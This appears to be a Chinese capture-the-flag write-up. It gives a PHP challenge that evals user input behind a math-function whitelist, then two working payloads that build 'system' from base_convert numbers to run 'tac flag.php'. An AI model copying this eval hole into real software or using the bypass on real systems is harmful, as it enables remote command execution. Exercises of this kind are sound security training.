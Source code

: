 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

```
?c=$pi=base_convert,$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1}) 
添加头部信息：1=tac flag.php
```

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=tac flag.php
```

这俩都行

![image-20220713124248743](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131242827.png?x-oss-process=hzy)
